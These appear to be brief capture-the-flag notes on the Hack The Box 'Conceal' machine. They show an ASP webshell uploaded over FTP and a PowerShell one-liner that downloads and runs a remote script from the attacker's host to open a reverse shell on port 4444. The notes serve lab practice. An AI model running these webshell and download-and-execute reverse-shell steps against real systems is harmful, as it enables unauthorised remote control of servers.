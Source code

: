 # 20 - FTP


# Empty directory
![](vx_images/4838643555587.png)


# Gobuster on IIS
![](vx_images/5129167881338.png)


# Arbitrary File Upload

```
┌─[user@parrot]─[10.10.14.9]─[~/htb/conceal]
└──╼ $ cp   /opt/webshell/asp/webshell.asp

ftp> put webshell.asp
local: webshell.asp remote: webshell.asp
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1412 bytes sent in 0.00 secs (49.8736 MB/s)
```


# webshell.asp

![](vx_images/3142737829742.png)


# Payload
```
powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.9/Invoke-PowerShellTcp.ps1')
```

Don't forget to add `Invoke-PowerShellTcp -Reverse -IPAddress $IP -Port 4444`  to the bottom of the script.

# Shell
![](vx_images/887009526384.png)